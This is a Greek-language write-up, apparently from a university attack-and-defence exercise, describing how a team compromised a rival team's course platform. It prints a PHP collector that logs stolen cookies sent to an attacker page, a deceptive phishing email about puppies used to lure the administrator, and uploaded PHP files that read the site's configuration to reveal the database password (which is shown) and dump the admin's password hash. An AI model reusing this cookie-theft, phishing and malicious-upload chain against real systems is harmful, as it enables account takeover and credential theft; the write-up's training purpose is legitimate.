 Μόλις βρήκαμε τρόπο να μεταβούμε στη δική μας κακόβουλη σελίδα, επικεντρωθήκαμε στον να αντλήσουμε με κάποιο τρόπο το cookie του χρήστη που περνάει μέσω του URL. Για να το πετύχουμε αυτό απλώς έπρεπε να προσθέσουμε στον κώδικα της δικής μας κακόβουλης σελίδας το κομμάτι:


	<?php if (isset($_GET['c'])){
		$file = fopen('foo.txt', 'a');
		fwrite($file, $_GET['c']."\n");
	}?>

Στο παραπάνω τμήμα κώδικα το εν λόγω cookie αντλείται μέσω του GET Request που λαμβάνει χώρα και αποθηκεύεται σε ένα δικό μας foo.txt για μελλοντική χρήση. Έτσι έχοντας κάνει την προηγούμενη διεργασία στείλαμε στον administrator της αντίπαλης ομάδας το ακόλουθο email:

Καλησπέρα σας,
  Στέλνουμε σε εσάς γιατί πιστεύουμε ότι έχετε μία παραπάνω ευαισθησία με την εγκατάλειψη των ζώων. Βρήκαμε στην σχολή κάποια κουτάβια και τα ανεβάσαμε δημόσια ώστε να βρεθεί κάποιος ενδιαφερόμενος να τα υιοθετήσει. Μπορείτε να ενημερώσετε σε κάποια διάλεξη τους φοιτητές σας ώστε να μας βοηθήσετε στην υιοθεσία;
Σας παραθέτουμε φωτογραφία με τα κουτάβια
https://qrgo.page.link/oMVeE
Ευχαριστούμε εκ των προτέρων.


Πείθοντας, λοιπόν, τον administrator να πατήσει το link που του στείλαμε και παρακολουθώντας τυχόν αλλαγές στο foo.txt, πετύχαμε το σκοπό μας και καταφέραμε να κλέψουμε από τον administrator το cookie του. Έτσι πλέον έχοντας στην κατοχή μας το cookie που χρειαζόταν το ενσωματώσαμε στον browser μας και αποκτήσαμε πρόσβαση Διαχειριστή Πλατφόρμας στην αντίπαλη σελίδα. Ως Διαχειριστής φτιάξαμε ένα καινούργιο ανοιχτό μάθημα, γιατί στο αρχικό δεν ήταν επιτρεπτή η είσοδος στους φακέλους μέσω των URLs /courses/TMA100/work ή /courses/TMA100/dropbox. Στην συνέχεια χρησιμοποιώντας λογαριασμό φοιτητή καταφέραμε να ανεβάσουμε το ακόλουθο php αρχείο:

	<?php
	include './../../../../config/config.php';
	echo $mysqlPassword;
	?>

Με τον τρόπο αυτό βρήκαμε τον κωδικό της βάσης που είναι ο:

                                                        2Q68RVAcCV

Έχοντας τον συνδεδεμένο λογαριασμό του administrator προσπαθήσαμε να συνδεθούμε στη βάση μέσω του phpMyAdmin αλλά μας είχαν απαγορεύσει την είσοδο στην συγκεκριμένη σελίδα. Έτσι προσθέσαμε από πλευράς χρήστη το ακόλουθο τμήμα κώδικα (ανεβάζοντάς το σαν εργασία μαθήματος)


    <?php include './../../../../config/config.php'; 
      include './../../../../include/lib/main.lib.php';   
      $pdodb = new PDO("mysql:host=$mysqlServer;dbname=$mysqlMainDb",$mysqlUser, $mysqlPassword, array(PDO::MYSQL_ATTR_INIT_COMMAND => "SET NAMES utf8")); 
      $userid = 1; 
      $ql= $pdodb->prepare("SELECT `password` FROM `user` WHERE `user_id`= ?");
      $ql->bindParam(1, $userid);
      $ql->execute(); 
      while ($myrow = $ql->fetch(PDO::FETCH_ASSOC)) { 
        $old_pass_db = $myrow['password']; 
      }
    echo $old_pass_db; ?>  
